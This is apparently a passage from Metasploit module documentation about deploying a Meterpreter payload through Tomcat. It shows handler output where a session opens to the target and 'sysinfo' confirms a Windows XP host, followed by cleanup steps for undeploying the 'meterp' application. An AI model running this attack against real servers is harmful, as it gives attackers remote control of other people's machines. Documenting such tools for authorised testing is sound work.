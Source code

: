 ```
[*] Starting the payload handler...
[*] Sending stage (49409 bytes) to 192.168.2.108
[*] Meterpreter session 1 opened (192.168.2.117:7777 -> 192.168.2.108:1704) at 2017-01-14 14:53:37 -0500

meterpreter > sysinfo
Computer    : winxp
OS          : Windows XP 5.1 (x86)
Meterpreter : java/windows
```

## Manual Cleanup

This will NOT remove the meterpreter from Tomcat, click `Undeploy` within the `Application` list to remove `meterp` from Tomcat.
